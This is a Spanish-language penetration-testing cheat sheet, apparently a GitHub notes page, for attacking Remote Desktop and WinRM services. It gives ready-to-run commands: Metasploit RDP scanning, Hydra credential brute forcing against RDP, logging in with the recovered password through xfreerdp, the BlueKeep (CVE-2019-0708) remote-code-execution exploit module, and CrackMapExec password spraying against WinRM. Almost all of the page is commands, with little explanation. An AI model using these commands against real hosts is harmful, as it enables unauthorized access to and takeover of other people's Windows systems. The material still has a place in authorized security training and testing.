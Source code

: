 Puerto por defecto (3389)

#### Metasploit

Detectamos la versión de RDP que esta corriendo en la máquina objetivo.

```bash
$ msfconsole
msf6> use auxiliary/scanner/rdp/rdp_scanner
msf6> set RHOSTS <IP-TARGET>
msf6> set RPORT <PORT-TARGET>
msf6> run
```

#### Hydra

```bash
$ hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlist/unix_passwords.txt rdp://<IP-TARGET> -s <PORT-TARGET>
```

#### xfreerdp

Utilizamos _xfreerdp_ para conectarnos por rdp con las credenciales obtenidas

```bash
$ xfreerdp /u:administrator /p:<PASSWORD> /v:<IP-TARGET>:<PORT-TARGET>
```

### Exploiting Windows CVE-2019- 0708 RDP Vulnerability (BlueKeep)

#### Metasploit

```bash
$ msfconsole
msf6> use auxiliary/scanner/cve_2019_0708_bluekeep
msf6> set RHOSTS <IP-TARGET>
msf6> run
```

```bash
$ msfconsole
msf6> use exploit/rdp/cve_2019_0708_bluekeep_rce
msf6> set RHOSTS <IP-TARGET>
msf6> show targets
msf6> set target 2
msf6> run
```

### Exploiting WinRM

#### Crackmapexec

##### Fuerza bruta

```bash
$ crackmapexec winrm <IP-TARGET> -u <USER> -p /usr/share/metasploit-framework/data/wordlist/unix_passwords.txt
```
